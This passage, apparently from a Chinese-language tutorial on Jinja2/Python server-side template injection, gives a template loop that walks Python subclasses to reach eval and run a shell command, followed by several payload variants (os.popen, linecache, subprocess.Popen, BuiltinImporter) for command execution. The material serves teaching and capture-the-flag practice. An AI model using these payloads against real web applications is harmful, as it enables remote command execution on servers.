 ```python
 # 模板语法 _ 命令执行_eval
{% for x in [].__class__.__base__.__subclasses__() %}
    {% if x.__init__ is defined and x.__init__.__globals__ is defined and 'eval' in x.__init__.__globals__['__builtins__']['eval'].__name__ %}
        {{ x.__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()') }}
    {% endif %}
{% endfor %}
```

模板语法我们下一节会细讲，现在让我们把目光移回到子类上面。

还有其他的一些子类也能达到 eval 的效果，见下图：

![image-20231129164759866](./assets/image-20231129164759866.png)

### 命令执行

在构造命令执行的 payload 的时候，要注意一些函数的回显和返回值。

```python
# eval 
x[NUM].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()') 

# os.py
x[NUM].__init__.__globals__['os'].popen('ls /').read()

# popen
x[NUM].__init__.__globals__['popen']('ls /').read()

# _frozen_importlib.BuiltinImporter
x[NUM]["load_module"]("os")["popen"]("ls /").read()

# linecache
x[NUM].__init__.__globals__['linecache']['os'].popen('ls /').read()

# subprocess.Popen
x[NUM]('ls /',shell=True,stdout=-1).communicate()[0].strip()
```

